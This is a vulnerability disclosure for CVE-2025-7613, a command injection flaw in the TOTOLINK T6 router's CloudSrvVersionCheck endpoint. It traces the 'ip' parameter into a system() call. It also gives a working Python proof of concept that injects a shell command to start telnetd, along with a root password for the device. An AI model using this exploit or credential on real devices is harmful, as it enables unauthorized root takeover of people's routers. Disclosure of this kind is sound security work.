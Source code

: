 # [CVE-2025-7613](https://www.cve.org/CVERecord?id=CVE-2025-7613)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `CloudSrvVersionCheck`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `CloudSrvVersionCheck`. If `type` is 1, the `ip` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](4/1.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](4/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](4/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"CloudSrvVersionCheck",
        "type":"1",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://www.youtube.com/watch?v=MMIggqnj28E)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.